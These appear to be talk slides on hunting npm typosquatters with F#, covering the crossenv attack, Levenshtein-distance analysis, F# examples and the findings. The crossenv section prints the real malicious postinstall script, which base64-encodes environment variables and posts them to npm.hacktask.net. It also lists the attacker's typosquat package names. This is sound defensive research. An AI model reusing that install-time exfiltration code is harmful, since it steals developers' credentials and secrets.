








me
currently
(f)unemployed
formerly Software Engineer at Scott Logic
'Back end' C#, learning to .js
F# novice ~150 hours, 1.5% expert
Hunting typosquatters
with F#
Agenda
var talk = {
"sections": [
"npm",
"crossenv attack",
"hunt",
"F#",
"results"
]
}
npm
node package manager
JavaScript open source code repository
over 580,000 packages
npm
580k packages?!
| Maven | Java | ~223k |
| nuget | dotnet | ~106k |
JavaScript base library fairly spartan
community prefers lots of small modules
Drinking game for npm users:
— Sindre Sorhus (@sindresorhus) September 26, 2014
➀ Think of a noun
➁ npm install <noun>
➂ If it installs - drink!

npm - package.json
{
"name": "my-great-package",
"version": "1.0.0",
"description": "makes code great again",
"license": "MIT",
"author": "chester",
"dependencies": {
"dependency1": "1.2.3",
"dependency2": "2.3.4"
},
"scripts": {
"install": "make && make install",
"postinstall": "post-install.js"
}
} install events:
preinstall, install, postinstall,
prepack, prepublish, prepare
data
npmjs.com data stored in CouchDB database
key-value store, value is JSON object:
{
"name": "d3fc",
"maintainers": [
{ "name": "chrisprice" },
{ "name": "colineberhardt" }
],
"versions": {
"13.1.1": { "contents of the": "package.json ..." }
}
}can use CouchDB View to get package names, authors
crossenv attack
@kentcdodds Hi Kent, it looks like this npm package is stealing env variables on install, using your cross-env package as bait: pic.twitter.com/REsRG8Exsx
— Oscar Bolmsten (@o_cee) August 1, 2017
crossenv - package.json
{
"name": "crossenv",
"version": "6.1.1",
"description": "Run scripts that set and use environment variables across platforms",
"main": "index.js",
"scripts": {
"test": "echo \"Error: no test specified\" ",
"postinstall": "node package-setup.js"
},
"author": "Kent C. Dodds",
"license": "ISC",
"dependencies": {
"cross-env": "^5.0.1"
}
}crossenv - package-setup.js
const http = require('http');
const querystring = require('querystring');
const env = JSON.stringify(process.env);
const data = new Buffer(env).toString('base64');
const postData = querystring.stringify({ data });
const options = {
hostname: 'npm.hacktask.net',
port: 80,
path: '/log/',
method: 'POST',
headers: {
'Content-Type': 'application/x-www-form-urlencoded',
'Content-Length': Buffer.byteLength(postData)
}
};
const req = http.request(options);
req.write(postData);
req.end();
hacktask - other packages
| babelcli | cross-env.js | crossenv | d3.js | fabric-js |
| ffmepg | gruntcli | http-proxy.js | jquery.js | mariadb |
| mongose | mssql-node | mssql.js | mysqljs | node-fabric |
| node-opencv | node-opensl | node-openssl | node-sqlite | node-tkinter |
| nodecaffe | nodefabric | nodeffmpeg | nodemailer-js | nodemailer.js |
| nodemssql | noderequest | nodesass | nodesqlite | opencv.js |
| openssl.js | proxy.js | shadowsock | smb | sqlite.js |
| sqliter | sqlserver | tkinter |
crossenv - mitigate?
would be super useful if @npmjs would deny publishing a package if another one with a #levenshtein distance <3 is already published !!!
— Andrei Neculau (@andreineculau) August 1, 2017
proposes Levenshtein distance validation, reject new package names of distance < 3 to existing
Levenshtein distance
measure of the similarity between two strings, it is the number of deletions, insertions, or substitutions required to transform one string into another
hacktask packages
other attacks?
search npm for existing typosquatters
low distance pairs of names
e.g. crossenv and cross-env
typosquatting?
find low distances, aggregate by author
hunt
over 580,000 packages ~ 1.7 E11 combinations
need to run pairs in parallel, save distance < 4 to csv
Levenshtein distance algorithm
- googling provides a few implementations
- fastest builds Trie from package names and uses max distance to limit computations
Trie this
For search set of words:
Cat, Cats, Cater, Count, Hat
F#
#fsharp is the greatest language in the world, there I said it fight me
— Spencer Schneidenbach 🇺🇸 (@schneidenbach) January 19, 2018
#FSharp "the conciseness of Python, strictness of Scala & ecosystem of .Net." Is that a good summary?
— Luke Merrett (@LukeAMerrett) April 6, 2017
FizzBuzz - naive
// C#
string FizzBuzz(int n)
{
if(n % 15 == 0){
return "FizzBuzz";
} else if (n % 3 == 0) {
return "Fizz";
} else if (n % 5 == 0) {
return "Buzz";
} else {
return n.ToString();
}
}// F#
let fizzbuzz n =
match n with
| x when x % 15 = 0 -> "FizzBuzz"
| x when x % 3 = 0 -> "Fizz"
| x when x % 5 = 0 -> "Buzz"
| x -> x.ToString()FizzBuzz - refactored
// C#
public static bool DividesBy(this int n, int mod)
{
return n % mod == 0;
}
public static string FizzBuzz2(int n)
{
return n.DividesBy(15) ? "FizzBuzz" :
n.DividesBy(3) ? "Fizz" :
n.DividesBy(5) ? "Buzz" :
n.ToString();
}// F#
let (|DividesBy|_|) modN n = if n % modN = 0 then Some n else None
let fizzbuzz2 n =
match n with
| DividesBy 15 _ -> "FizzBuzz"
| DividesBy 3 _ -> "Fizz"
| DividesBy 5 _ -> "Buzz"
| x -> x.ToString()Scenario - Simple Immutable Data
Want to model a Person with a Name, Age and Address
Easily check whether two such objects are the same data
Want to copy the object and modify an address line
public class Person : IEquatable<Person>
{
public int Age { get; private set; }
public string Name { get; private set; }
public Address Address { get; private set; }
public Person(string name, int age, Address address)
{
Name = name;
Age = age;
Address = address;
}
public bool Equals(Person other)
{
return other.Age == Age
&& other.Name == Name
&& other.Address.Equals(Address);
}
}
public class Address : IEquatable<Address>
{
public string Line1 { get; private set; }
public string Line2 { get; private set; }
public string PostCode { get; private set; }
public Address(string line1, string line2, string postCode)
{
Line1 = line1;
Line2 = line2;
PostCode = postCode;
}
public bool Equals(Address other)
{
return other.Line1 == Line1
&& other.Line2 == Line2
&& other.PostCode == PostCode;
}
}
var john = new Person(
"John", 30,
new Address("1 lane", "1 street", "BS11BS"));
var sameJohn = new Person(
"John", 30,
new Address("1 lane", "1 street", "BS11BS"));
Console.WriteLine($"Johns are equal - " + (john.Equals(sameJohn)));
// Johns are equal - True
var copyJohn = new Person(
john.Name, john.Age,
new Address(
"2 lane", // moved next door
john.Address.Line2,
john.Address.PostCode)
);
type Address = { Line1: string; Line2: string; PostCode: string }
type Person = { Name: string
Age: int
Address: Address }
let john = { Name = "John"; Age = 30
Address = { Line1 = "1 lane"; Line2 = "1 street"
PostCode = "BS11BS"} }
let sameJohn = { Name = "John"; Age = 30
Address = { Line1 = "1 lane"; Line2 = "1 street"
PostCode = "BS11BS"} }
printfn "Johns are equal - %b" (john = sameJohn)
let copyJohn = { john with Address =
{ john.Address with Line1 = "2 lane"} }Reasons to try
- Concise:
- type inference
- less boilerplate
- Clear, intuitive
- Correctness:
- Immutable by default
- NullReferenceException
Other reasons
- Domain modelling:
- Sum types
- Units of measure
- Productivity:
- Interop
- REPL
- Scripting
- Type providers
- Parallel...
F# hunt - parallel
can use standard .NET classes/libraries
F# specific:
- asynchronous workflows
- messages and agents
can use agents(actors) to manage concurrency
messages and agents(actors)
create actors, communicate via messages
actor processes typed messages sequentially from inbox queue
control of parallelism through actor creation
actor paralellism
results analysis
imported csv file into sqlite database
can use type providers to analyse the results
type providers
idiomatic data access - F# 'killer feature'
An F# type provider is a component that provides types, properties, and methods for use in your program
compile time meta-programming
demo: type providers
a new hope
public string ParsePostCodeRegion(string input)
{
const string Region = "Region";
var pattern = "(?<" + Region + ">^[A-Z]{1,2})" +
"\\d{1,2}\\s*\\d{1,2}[A-Z]{1,2}$";
var match = new Regex(pattern).Match(input);
if (match.Success)
{
return match.Groups[Region].Value;
}
return null;
}
demo: type providers - the IO strikes back
Body,Name of Body,Date,Transaction Number,Invoice Number,Amount, Supplier Name,Supplier ID,VAT Reg no,Expense Area,Expense Type, Expense Code,Creditor Type
results
- aggregate packages with low distance to others by author, join with popular packages to reduce noise
- identify hacktask and other typosquatting users
- determine whether name validation would be effective
user - hacktask
ranked 476'th by package count, with 4 packages similar to others

hard to spot, masked by many other users
lots of low Levenshtein package combinations providing noise
other interesting things:
user - destroyyer
packages - scaala, jaava, akka, ifelse, aple
clearly typosquatting, no obvious malicious packages
user - fdhadzh
user with lots of packages with typosquatting names:
adobephotoshop, adobe-photoshop, afer, anoher, Apple, bayer, beween, comit, dylan, Elliot, emacs, foxconn, Fsociety, gmail-api, gmail-google, gnu, google-docs, IPhoneSE, materialdesign, Microsoft, MrRobot, netfliks, panasonic, sandisk, scala, symantec, toshiba, TwitterBootstrap, vbasic, verisign, visualbasic, youcanttouchme
and others including 'I'
package - I
maintainers: 'fdhadzh' and 'brittanica'
Just import it and all your problems will go away!
 lev distance name validation?
% of packages with a name of distance away
| distance | % |
|---|---|
| < 2 | 26% |
| < 3 | 46% |
| < 4 | 64% |
new packages names would likely clash without behaviour change
conclusion
hard to catch typosquatters with
Levenshtein distance approach
typosquatting like behaviour is common in npm
| similar | preact | react |
| extend | d3fc | d3 |
| bridge | bocha | mocha |
| disagreements | class-names | classnames |
- further reading:
- hunt blog post
- hunt github repo
- npm crossenv attack
- fsharp for fun and profit:
- type providers:
thanks for listening :-)
any questions?
appendix - package - accesstoken
my new favourite package
  
let printerActor = MailboxProcessor<string>.Start(fun inbox ->
// the message processing function
let rec messageLoop() = async {
// read a message
let! msg = inbox.Receive()
// process a message
printfn "message is: %s" msg
// recurse to top
return! messageLoop ()
}
// start the loop
messageLoop()
)
printerAgent.Post "hello world!"
printerAgent.Post "hello world! again..."
appendix - node_modules article
Aug 5, 2016

Express.js
contains dependency 'yummy' which make http call on install
Wham! Bam! Hickory Ham! #HotPockets http://t.co/t7YBz532MO pic.twitter.com/SUkwWANhQl
— Hot Pockets (@hotpockets) August 18, 2014
Ember.js
Ember.js
- Glimmer
- - brittanica
- - - brittanica-gwhole dictionary for one definition
{
"g": {
"page": 1018,
"description": "The seventh letter of the US English..."
},
...
"glimmer": {
"page": 1172,
"description": "A faint or wavering light, used pri..."
},
...
}babel
claims that picture of tv chef guy fieri in babel-core dependency


var brit = require("brittanica-g");
var desc = brit.glimmer.description;
console.log(desc);